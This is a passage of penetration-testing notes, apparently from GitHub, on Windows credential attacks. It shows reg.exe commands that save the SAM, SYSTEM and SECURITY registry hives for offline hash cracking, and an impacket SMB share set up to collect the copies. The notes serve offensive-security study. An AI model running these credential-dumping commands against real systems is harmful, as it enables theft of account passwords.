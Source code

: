 - [Attacking SAM](#attacking-sam)
- [Attacking LSASS](#attacking-lsass)
- [Attacking Active Directory & NTDS.dit](#attacking-active-directory--ntdsdit)
- [Credential Hunting in Windows](#credential-hunting-in-windows)





![Screenshot_8](https://github.com/kiro6/penetration-testing-notes/assets/57776872/23757489-37b1-41f2-82f3-70be69c26b8f)





## Attacking SAM

1) **Copying SAM Registry Hives**

| Registry Hive | Description                                                                                                        |
|---------------|--------------------------------------------------------------------------------------------------------------------|
| hklm\sam      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| hklm\system   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                      |
| hklm\security | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                               |


```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```



2) **Creating a Share with smbserver.py**

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
